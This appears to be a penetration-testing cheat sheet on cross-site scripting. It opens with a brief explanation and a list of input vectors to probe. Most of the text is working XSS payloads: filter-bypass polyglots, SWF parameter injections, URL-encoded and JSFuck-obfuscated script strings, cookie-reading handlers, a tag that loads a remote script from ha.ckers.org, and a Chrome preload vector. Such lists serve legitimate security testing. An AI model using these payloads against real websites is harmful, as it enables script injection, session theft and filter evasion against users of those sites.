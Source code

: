 # Cross-Site Scripting (XSS) Overview

Cross-Site Scripting (XSS) is a security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A successful XSS attack leads to manipulation of the affected web application, potentially leading to unauthorized access to sensitive data.

### Core Concept

The core idea of XSS is to exploit the functionality of a web page that displays content to users. This can be achieved by injecting malicious scripts into areas where web applications display user-generated content.

### Time-Sensitive Testing: The 80/20 Rule

In time-sensitive testing environments, the 80/20 rule is often applicable. This principle suggests focusing on the 20% of areas that are most likely to yield 80% of the potential vulnerabilities. Many testers use Polyglot payloads, which are designed to work in multiple contexts and bypass various filters.

## XSS Payloads

### 1. Multi-Context, Filter Bypass Polyglot Payload #1 (Rsnake XSS Cheat Sheet)

```Javascript
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

### 2. Multi-Context, Filter Bypass Polyglot Payload #2 (Ashar Javed XSS Research)

```Javascript
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
```

### 3. Multi-Context Polyglot Payload (Mathias Karlsson)

```Javascript
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```

## Other XSS Observations

### Input Vectors:

- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI-based vectors
- Integration with third-party platforms (e.g., Facebook)
- JSON POST values (check returning content type)
- File upload names
- Uploaded files (e.g., SWF, HTML)
- Custom error pages
- Fake parameters (e.g., `?realparam=1&foo=bar’+alert(/XSS/)+’`)
- Login and Forgot Password forms

## SWF Parameter XSS

### Common Params:

- `onload`
- `allowedDomain`
- `movieplayer`
- `xmlPath`
- `eventhandler`
- `callback` (more details on the OWASP page)

### Common Injection Strings:

```Javascript
\%22})))}catch(e){alert(document.domain);}//
```

```Javascript
"]);}catch(e){}if(!self.a)self.a=!alert(document.domain);//
```

```Javascript
"a")(({type:"ready"}));}catch(e){alert(1)}//
```

## Different XSS Payloads

Various payloads are available for exploiting XSS vulnerabilities, each tailored to specific scenarios or application behaviors.

```Javascript
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC="javascript:alert('XSS');">

<a onmouseover="alert(document.cookie)">xxs link</a>
<a onmouseover=alert(document.cookie)>xxs link</a>

%3CScript%3Econfirm()%3C/Script%3E
src%27%27%20onerror=confirm(1)%20onerror=alert(1)
%3Cscript%20%3Eeval(String.fromCharCode(97,%20108,%20101,%20114,%20116,%2040,%2039,%2049,%2051,%2051,%2055,%2039,%2041))%3C/script%3E
%22%20onkeyup=%27alert(1)%27
%3Cscript%3E%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%5B%28%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%5B%5D%5B%5B%5D%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%5B%5D%5B%5B%5D%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%28%28%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%5B%2B%21%2B%5B%5D%5D%2B%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%29%28%29%3C/script%3E
<SVG ONLOAD=%26%2397%26%23108%26%23101%26%23114%26%23116(1337)>
<script >eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 39, 49, 51, 51, 55, 39, 41))</script>
```

## XSS Vector (Chrome)

Specific vectors for browsers like Chrome can be used for targeted XSS attacks.

```HTML
<link rel='preload' href='#' as='script' onload='confirm(domain)'>
```
